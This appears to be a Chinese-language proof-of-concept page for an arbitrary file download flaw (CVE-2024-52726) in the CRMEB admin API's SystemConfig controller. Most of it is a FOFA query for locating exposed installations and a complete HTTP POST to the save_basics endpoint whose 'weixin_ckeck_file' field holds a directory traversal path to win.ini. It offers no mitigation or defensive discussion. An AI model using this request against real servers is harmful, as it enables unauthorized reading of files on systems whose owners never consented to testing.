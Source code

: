 ## CRMEB任意文件下载漏洞分析(CVE-2024-52726)

app/adminapi/controller/v1/setting/SystemConfig.php路由中存在任意文件下载漏洞

## fofa

```javascript
icon_hash="-847565074"
```

## poc

```javascript
POST /adminapi/setting/config/save_basics HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Authori-zation: 
Cookie: cb_lang=zh-cn;
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
Content-Type: application/json;charset=utf-8
Content-Length: 72

{
    "weixin_ckeck_file": "../../../../../../../../Windows/win.ini"
}
```

